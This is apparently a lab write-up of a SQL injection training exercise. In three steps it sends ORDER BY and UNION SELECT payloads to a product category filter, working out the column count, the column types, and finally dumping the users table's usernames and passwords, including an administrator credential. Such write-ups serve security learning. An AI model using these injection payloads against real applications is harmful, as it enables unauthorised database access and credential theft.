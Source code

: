 # Retrieving multiple values in a single column
## Description
 This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

### step 1
#### Determine the number of columns on both tables in order to use the UNION attack
'+order+by+1-- = response 200
'+order+by+2-- = response 200
'+order+by+3-- = response 500 

##### analysis 
The table has 2 columns

### step 2 
####  Determine the data types of each columns 
'+UNION+SELECT+'abc',NULL-- = response 500
'+UNION+SELECT+NULL,'abc'-- = response 200

##### Analysis
The second column is of string data type.

### step 3
#### Retriving the contents of the users table
'+UNION+SELECT+NULL,username||'~'||password+FROM+users-- = response 200
results = administrator~nc1ne4hr8o19e8j8kmws
![image](https://user-images.githubusercontent.com/44478872/150288480-610ca2e9-a9e3-4c66-90ca-85cb79d0b822.png)

